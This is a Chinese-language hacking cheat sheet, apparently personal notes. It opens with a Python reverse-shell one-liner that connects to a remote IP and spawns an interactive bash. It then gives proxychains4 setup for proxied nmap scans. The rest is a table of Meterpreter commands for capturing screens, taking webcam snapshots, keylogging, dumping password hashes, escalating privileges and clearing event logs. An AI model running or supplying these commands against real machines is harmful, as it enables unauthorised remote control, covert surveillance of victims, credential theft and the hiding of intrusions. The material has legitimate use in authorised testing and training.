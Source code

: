 PYTHON：

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.8.13',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```



## KALI使用

这里介绍KALI的一些工具的使用

### proxychains4

该工具用于`KALI`**挂代理**

1. 使用前输入：

   ```
   vi /etc/proxychains4.conf　　　　　　　　#查看修改配置
   ```

2. 把`dynamic_chain`前的`#`去掉

3. 在`strict_chain`前加上`#`

4. 在最后面加上代理信息

使用：在命令前加上`proxychains4`即可，如

```
proxychains4 nmap -sT -Pn 192.168.22.0/24
```



### MSF攻击

#### 命令

|                         命令                          |                 含义                 |
| :---------------------------------------------------: | :----------------------------------: |
|                      chcp 65001                       |             解决乱码问题             |
|                          ps                           |            查看目标机进程            |
|                       kill 2312                       |         关闭pid为2312的进程          |
|                        run vnc                        |            监控目标机桌面            |
|                      screenshot                       |            截取目标机屏幕            |
|                      screenshare                      |          实时观看目标机屏幕          |
|                         shell                         |         进入目标机的命令终端         |
|                      webcam_list                      |              列举摄像头              |
|                      webcam_snap                      |     通过远程连接目标系统的摄像头     |
|                        clearev                        |               清除日志               |
|                       getsystem                       |               提升权限               |
|                       hashdump                        |            获取密码hash值            |
|                     keyscan_start                     |             打开记录键盘             |
|                     keyscan_dump                      |               记录键盘               |
|                     keyscan_stop                      |             关闭记录键盘             |